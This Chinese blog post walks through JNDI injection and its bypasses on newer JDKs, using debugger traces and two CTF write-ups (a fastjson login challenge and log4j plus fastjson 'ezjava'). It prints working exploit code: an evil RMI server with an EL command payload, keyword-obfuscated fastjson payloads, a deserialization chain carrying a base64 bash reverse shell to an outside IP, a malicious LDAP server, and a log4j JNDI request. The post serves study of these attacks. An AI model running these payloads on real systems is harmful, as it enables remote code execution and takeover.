



# 高 JDK 的 JNDI 绕过之复现某比赛 0 解题 - 先知社区

高 JDK 的 JNDI 绕过之复现某比赛 0 解题

- - -

# 前言

诶呀这玩意学了蛮久了真的，离大谱，各种事故各种坑点，不过结果还算好都弄清楚了，记录下顺便分享两个 CTF 案例来进行加深理解，下次遇到高 jdk 的 JNDI 就不会那么踉踉跄跄了

# JNDI 的打法

## RMI + JNDI

其实 JNDI 的标准注入就是从`RMI`​中去寻找对应的名字所对应的`Reference`​对象，而这个对象是可以任意写地址和类的，所以其实 JNDI 就是去找这么个东西，可以看如下 demo

首先是开启一个 RMI 的服务器，然后在 JNDI 的 Server 端把我们的`Reference`​对象重新绑定到某个名字下，此时在写了恶意 payload 的 class 文件目录下开启 http 服务，然后用 JNDI 的客户端直接去`lookup`​查找 rmi 服务

‍

```plain
//JNDIClient.java
package jndi;

import method.SayHello;

import javax.naming.InitialContext;

public class JndiClient {
    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

        InitialContext initialContext = new InitialContext();
        SayHello sayHello = (SayHello)initialContext.lookup("rmi://127.0.0.1:1099/sayhello");
    }
}
```

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121489.png)​

来跟一下断点，直接在`JndiClient.java`​的`lookup`​方法下断点调试

会先走几个无关紧要的`lookup`​方法最后会走到对应协议的`lookup`​方法中，因为我走的是`RMI`​协议所以最后走到了

`\rt.jar!\com\sun\jndi\rmi\registry\RegistryContext.java#lookup()`​方法

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121266.png)​

然后返回的时候把获取到的结果传入`decodeObject`​方法，跟进下

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121627.png)​

发现只要是继承了`RemoteReference`​类，就会调用`getObjectInstance`​方法继续往下处理，再次跟进下

‍

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121897.png)​

发现是从引用的变量中获取工厂，调用了`getObjectFactoryFromReference`​方法，继续跟进

发现就已经开始类加载了 (我的类是`T`​)

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121181.png)​

然后先用 `AppClassLoader`​寻找本地类

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121419.png)​

‍

当然这里找不到的话就会走下面的逻辑再次加载

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121652.png)​

跟进下发现最后会调用`URLClasserloader`​去远程加载

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121858.png)​

那么就是相当于会去在我们的路径下去找我们的恶意类

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121059.png)​

加载之后最后在这里进行类的初始化执行了我们的代码，所以只要一执行完这个代码就会弹计算器了

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121584.png)​

‍

## LDAP + JNDI

一样直接起个`LDAP`​服务下个断点

经过几层的`lookup`​方法最后调用到`c_lookup`​方法中，在这个方法底下会去调用`decodeObject`​方法将我们传入的 ldap 对象

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121784.png)​

跟进`decodeObject`​方法，发现会根据`LDAP`​查询的结果来进行不同方法的调用，因为`LDAP`​中会有能够存储很多值比如序列化，引用类 等，而我们传入的肯定是引用类于是就走到了引用类的判断方法中

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121038.png)​

这个方法其实大致了解下即可，就是个去解析我们的`Reference`​引用对象的

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121335.png)​

我们直接看将返回的接口做了什么即可，最后在`\rt.jar!\com\sun\jndi\ldap\LdapCtx.java`​将返回结果传入了`DirectoryManager.getObjectInstance`​这个方法

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121607.png)​

跟进下发现跟`RMI`​差不多一样去调用了`getObjectFactoryFromReference`​方法去解析我们的引用类

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121827.png)​

后面代码就是跟 RMI 一模一样了都是去本地找类找不到用`URLClassLoader`​去远程加载类了

‍

‍

# 高版本限制

‍

其实在之前讲的原理当中可以知道，在 jdk8u191 之前都是存在这些的，虽然说 ldap 是低版本的绕过，问题其实也就是可以去远程加载类

然后更改到 jdk8u201 之后就不行了，具体改了什么继续调试下

跟到`D:\Environment-Java\java-1.8.0_201\src.zip!\javax\naming\spi\DirectoryManager.java`​的关键代码 跟进下

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121105.png)​

进行加载类

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121505.png)​

本地类加载不成功后看远程类加载的逻辑

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121754.png)​

跟进后发现有一个属性叫`trustURLCodebase`​ 要等于`true`​才能够进行远程加载，而默认的`trustURLCodebase`​是被设置成了`false`​

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121960.png)​

也就是说，只要人为不修改，就不会存在远程加载类的行为了，那也就是说这个远程加载类就是被修复了

‍

# 绕过

‍

但是转过头来一想，我们远程加载被修复了，但是还可以本地加载

‍

所以对于 JDK8u191 以后得版本来说，默认环境下之前这些利用方式都已经失效。然而，我们依然可以进行绕过并完成利用。两种绕过方法如下：

‍

1.  找到一个受害者本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类，并利用这个本地的 Factory 类执行命令
2.  利用 LDAP 直接返回一个恶意的序列化对象，JNDI 注入依然会对该对象进行反序列化操作，利用反序列化 Gadget 完成命令执行

‍

这两种方式都非常依赖受害者本地 CLASSPATH 中环境，需要利用受害者本地的 Gadget 进行攻击。我们先来看一些基本概念，然后再分析这两种绕过方法。

‍

## 利用本地恶意 Class 作为 Reference Factory

看名字其实很帅，但是调试一下就可以很清楚理解了

在`D:\Environment-Java\java-1.8.0_201\jre\lib\rt.jar!\com\sun\jndi\ldap\Obj.java`​中会去把`LDAP`​或者`RMI`​所解析得到的`Reference`​解出来

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121209.png)​

紧接着跟进到`D:\Environment-Java\java-1.8.0_201\src.zip!\javax\naming\spi\DirectoryManager.java#getObjectFactoryFromReference()`​可以发现他是接收了两个传参，一个是引用类，另一个是引用类的工厂名字

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121748.png)​

并且返回的类型是`ObjectFactory`​类 (`ObjectFactory`​其实是一个接口)

‍

之后这个工厂类去调用了`getObjectInstance`​方法，那么现在思路就有了，如果我们去找的是本地的工厂类，并且这此类实现了`ObjectFactory`​接口并且他还有`getObjectInstance`​方法，而`getObjectInstance`​这个方法还有危险的操作，那么就可以进行一个利用了 (说起来感觉条件很苛刻)

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121979.png)​

但实际上真的有这个类，`org.apache.naming.factory.BeanFactory`​

我们去看看这个类

实现了`ObjectFactory`​接口

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121233.png)​

‍

存在`getObjectInstance`​方法

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121390.png)​

有一个反射的方法，该类的`getObjectInstance()`​函数中会通过反射的方式实例化 Reference 所指向的任意 Bean Class，并且会调用 setter 方法为所有的属性赋值。而该 Bean Class 的类名、属性、属性值，全都来自于`Reference`​对象，均是攻击者可控的。

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121700.png)​

‍

EXP

```plain
package jndi.bypass;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(3377);
        // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的 setter 从'setX'变为'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

‍

‍

## 利用 LDAP 返回序列化数据，触发本地 Gadget

其实这里就是在分析 LDAP+JNDI 的时候他有个类似 swich 的东西，当时传入的是引用类，所以走了引用类的逻辑，但是如果我们传入的是序列化的对象，并且后续会被反序列化，那么就相当于存在了一个天然的反序列化入口了，就可以触发本地的 Gadget 了

‍

本地调试下 先添加 CC 的依赖

```plain
<dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```

‍

```plain
java -jar y4-yso.jar CommonsCollections6 "calc" > 1.ser | base64
```

然后传进 ldapserver

```plain
java -jar LDAPServer.jar 127.0.0.1 1.txt
```

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121936.png)​

然后直接去 JNDI 查询

```plain
SayHello sayHello = (SayHello)initialContext.lookup("ldap://127.0.0.1:6666/Evail");
```

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121512.png)​

调试一下

会走到序列化的逻辑进行反序列化

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121159.png)​

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121660.png)​

‍

# 总结

这里要注意的点就是 RMI 和 LDAP 都是需要出网的环境进行远程方法调用或者是目录名称查询，所以都是可以操作的，下图是两种方式的 jdk 适配版本总结，那么其实绕过跟一遍断点即可理解完，都是一些攻防博弈，非常值得学习

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121908.png)​

‍

# 案例分析

‍

## 湖南邀请赛 - Login

‍

tips: 本地是用的是 jdk8u65 起的

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121103.png)​

明显`login`​路由这存在一个打`fastjson`​的入口，屏蔽了关键字，看依赖是`1.2.47`​的 fastjson

第一反应肯定是打以下的 payload

```plain
import com.alibaba.fastjson.JSON;

public class Fastjson6 {
    public static void main(String[] args) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/evilObject\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}
```

由于过滤了关键字，可以直接用`hex`​ 跟 `unicode`​去绕过即可，本地尝试打一下

```plain
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://127.0.0.1:1099/qv9wk6","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121381.png)​

但打远程的时候发现就不可以，那么仔细去分析一下，其实会发现有以下几个原因

1.  fastjson 不出网
2.  使用的 jdk 并不是 8u65 而是别的 jdk

‍

首先第一个 打不出网的 fastjson 打`TemplatesImpl`​的话并没有开启私有可访问的参数`Feature.SupportNonPublicField`​,`C3P0`​,`Commons-io`​,`BCEL`​都没有这些依赖，因为依赖非常的清楚只有这些

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121099.png)​

那么我们再来看看他的`pom.xml`​

```plain
<dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>4.0.8</version>
            <scope>test</scope>
        </dependency>
```

发现存在一个用于与 `LDAP`​ 目录服务器进行通信的一个依赖，所以考虑了下这绕过高版本 jdk(本地我换了 jdk8u201) 实现 jndi 注入打 CC 链，所以直接起一个恶意的 jndi 返回 CC6 的恶意序列化值即可打反序列化了

```plain
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:6666/Evail","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121288.png)​

但是当时的提示如下

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121901.png)​

只是后半段是用了 temp 去改了下 CC6 的后半段用了 CC3 的加载字节码来加载恶意类罢了，但看代码也没过滤 Runtime 啊，直接打命令执行弹 shell 就好了把，为了贴合题目提示要求，也写了下加载字节码的，也能成功弹出计算机

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181151742.png)

‍

## \[HZNUCTF 2023 final\]ezjava

知识点：log4j2 + fastjson 原生反序列化 + 高版本 JNDI 注入绕过

‍

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121187.png)​

访问后提示能够`log`​你的`uri`​ 并且提示`fastjson 1.2.48`​ 先想到的是`log4j`​

于是用 log4j 的 payload 去打一下先

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121585.png)​

发现 java 版本为`jdk1.8.0_222`​,因为在 log4j 打的其实就是 JNDI 注入，所以第一时间想到的就是 此版本已经是 jdk8u191 之后了，所以就不能够进行远程加载类了，那再探测下`fastjson`​的 1.2.83 使用通用的链子来打一下

```plain
package Fastjson;
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class F83 {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {


        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTIuMTM2LjQ2LjI4Lzc5NzkgMD4mMQ==}|{base64,-d}|{bash,-i}")});
        setValue(templates, "_name", "qiu");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates, bd);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));
//                ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
//        objectInputStream.readObject();

    }}
```

‍

但由于 jdk 高版本的限制所以要用到一些手法绕过，这里用的就是 LDAP 返回序列化字符串来打反序列化了

‍

起一个恶意的 LDAPServer，里面加载了恶意的序列化数据

LDAPServer

```plain
package JNDIBypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import org.apache.commons.io.FileUtils;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.File;
import java.io.IOException;
import java.net.InetAddress;
import java.net.URL;
//高版本 LDAP 绕过

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main (String[] tmp_args ) throws Exception{
        if (tmp_args.length < 2) {
            System.out.println("Usage: java xxx.jar <IP> <file>");
            System.exit(1);
        }

        String ip = tmp_args[0];
        String[] args = new String[]{"http://" + ip +"/#Evail"};
        String payload = "";
        File file = new File(tmp_args[1]);
        try {
            payload = FileUtils.readFileToString(file);
            System.out.println(payload);
        } catch (IOException e) {
            e.printStackTrace();
        }

        int port = 6666;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ]), payload));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        private String payload;

        public OperationInterceptor ( URL cb , String payload) {
            this.codebase = cb;
            this.payload = payload;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e, payload);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult (InMemoryInterceptedSearchResult result, String base, Entry e , String payload) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData", Base64.decode(payload));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

‍

以 jar 的形式开启，并且传入序列化的值

```plain
java -jar LDAPServer.jar ip 1.txt
```

然后用 JNDI 去找 IP+PORT 即可成功反弹

‍

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121789.png)​​

```plain
GET /{{urlenc(${jndi:ldap://152.136.46.28:6666/Evail})}} HTTP/1.1
Host: node5.anna.nssctf.cn:28379
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```
